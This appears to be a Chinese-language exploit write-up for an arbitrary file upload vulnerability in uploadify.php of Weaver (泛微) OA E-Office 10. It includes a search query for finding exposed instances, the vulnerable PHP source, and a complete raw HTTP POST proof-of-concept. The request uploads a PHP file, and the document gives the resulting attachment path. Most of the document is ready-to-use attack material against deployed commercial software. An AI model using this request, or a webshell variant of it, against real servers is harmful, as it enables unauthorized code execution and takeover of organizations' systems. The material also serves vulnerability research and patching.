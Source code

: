 # 泛微OA E-Office uploadify 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629192036675-609c0b9d-2484-4e61-bb92-da8c1ce0067c-1814947.png)

```php
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```php
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691804423513-f15a6608-1744-47f5-9310-f651ac47a189.png)

```php
/attachment/3466744850/xxx.php
```